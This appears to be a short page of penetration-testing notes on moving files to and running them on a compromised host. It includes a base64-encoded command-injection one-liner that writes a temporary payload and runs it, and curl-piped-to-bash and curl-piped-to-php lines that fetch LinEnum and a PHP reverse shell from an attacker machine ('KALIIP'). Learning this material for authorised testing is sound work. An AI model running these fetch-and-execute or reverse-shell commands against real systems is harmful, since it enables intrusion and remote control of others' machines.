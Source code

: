 # Transferring Files

## Transferring Files <a id="transferring-files"></a>

This section could easily be put in the post-exploitation section. But I consider this knowledge so fundamental that I chose to put it here.

### Giant file transfer, can't transfer over network \(Base64\) <a id="giant-file-transfer-cant-transfer-over-network-base64"></a>

```text
base64 file
highlight beginning, hit enter to copy to bottom, ctrl+c, paste
base64 -d pastedfile
md5sum both to ensure accurate completion
```

## Can also be used for encoding/decoding issues and file execution <a id="can-also-be-used-for-encodingdecoding-issues-and-file-execution"></a>

**XML as example:**

We could base64 encode the user supplied command \(since base64 characters don't break XML\) and decode that on the command line into a file, then execute that file with /bin/bash and then remove that temporary file all while avoiding special XML characters. For example, the following one-line command could achieve this:

```text

echo L3Vzci9iaW4vd2hvYW1pIA==| base64 -d | tee -a /tmp/payload.tmp ; /bin/bash /tmp/payload.tmp; /bin/rm /tmp/ payload.tmp
```

## Quick file transfer & execute scripts <a id="quick-file-transfer--execute-scripts"></a>

```text
on attack
python -m SimpleHTTPServer 8080

on target
curl KALIIP:8080/LinEnum.sh | bash
LinEnum as example
```

```text
Quick shell

on target
curl http://KALIIP/php-reverse-shell.php | php
```

#### **References:** <a id="references"></a>

[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code)

